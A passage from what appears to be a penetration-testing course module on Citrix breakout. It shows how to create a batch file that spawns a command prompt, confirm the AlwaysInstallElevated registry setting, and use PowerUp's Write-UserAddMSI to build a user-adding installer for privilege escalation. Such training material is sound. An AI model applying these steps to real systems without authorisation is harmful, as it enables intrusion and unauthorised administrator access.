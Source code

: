 1. Create a new text file and name it "evil.bat".
2. Open "evil.bat" with a text editor such as Notepad.
3. Input the command "cmd" into the file.
    
    ![https://academy.hackthebox.com/storage/modules/67/script_bat.png](https://academy.hackthebox.com/storage/modules/67/script_bat.png)
    
4. Save the file.

Upon executing the "evil.bat" file, it will initiate a Command Prompt
 window. This can be useful for performing various command-line 
operations.

---

## Escalating Privileges

Once access to the command prompt is established, it's possible to 
search for vulnerabilities in a system more easily. For instance, tools 
like [Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) and [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) can also be employed to identify potential security issues and vulnerabilities within the operating system.

Using `PowerUp.ps1`, we find that [Always Install Elevated](https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated) key is present and set.

We can also validate this using the Command Prompt by querying the corresponding registry keys:

Citrix Breakout

```
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1

C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1

```

Once more, we can make use of PowerUp, using it's `Write-UserAddMSI` function. This function facilitates the creation of an `.msi` file directly on the desktop.

Citrix Breakout

```powershell
PS C:\Users\pmorgan\Desktop> Import-Module .\PowerUp.ps1
PS C:\Users\pmorgan\Desktop> Write-UserAddMSI

Output Path
-----------
UserAdd.msi

```

